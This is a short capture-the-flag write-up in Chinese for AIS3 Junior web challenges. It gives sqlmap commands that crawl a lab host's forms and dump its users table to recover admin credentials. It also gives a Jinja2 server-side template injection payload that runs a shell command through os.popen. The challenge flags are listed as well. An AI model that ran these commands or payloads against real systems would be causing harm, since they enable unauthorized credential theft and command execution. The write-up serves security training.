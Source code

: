 
### SQL02
### STEP1:
利用SQLMAP慢慢往深搜，即可搜到admin帳密
```sqlmap
sqlmap -u "http://ctfd-ais3.crazyfirelee.tw:9052/" --batch --dbs --forms --crawl=2 
sqlmap -u "http://ctfd-ais3.crazyfirelee.tw:9052/" --batch -D ApexPredators --tables --forms --crawl=2 
sqlmap -u "http://ctfd-ais3.crazyfirelee.tw:9052/" --batch -D ApexPredators -T users --columns --forms --crawl=2 
sqlmap -u "http://ctfd-ais3.crazyfirelee.tw:9052/" --batch -D ApexPredators -T users -C isAdmin --dump-all --forms --crawl=2 
```
![image](https://hackmd.io/_uploads/rkreWgkoR.png)
![image](https://hackmd.io/_uploads/rypPblyjA.png)
![image](https://hackmd.io/_uploads/H1zK-gJjA.png)
![image](https://hackmd.io/_uploads/HyGhZxJj0.png)
### STEP2:
登入即可獲得FLAG
### FLAG：AIS3_Junior{_BRO-DO_A--UNION_SELECTXDDD_--_-}
![image](https://hackmd.io/_uploads/SJQlGlyiC.png)
![image](https://hackmd.io/_uploads/BkSE7gkoC.png)

## 07-Server-Side_Template_Injection
### Ref：[link](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

### STI01
### Step1
直接嘗試輸入```{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat FLAG').read() }}```，即可獲得FLAG。

### FLAG:AIS3_Junior{.__JinjaTWOOOO.___["SSTI"]__.succ3ssXDD.__}
![image](https://hackmd.io/_uploads/rk2_r0A50.png)
![image](https://hackmd.io/_uploads/BkhYS0AcR.png)

### STI02
### Step1
嘗試輸入相同模板，發現成功了:D
### FLAG：AIS3_Junior{b4by__.filt3rEvasion.__Succ3ss}
![image](https://hackmd.io/_uploads/rJ5fvRCcA.png)
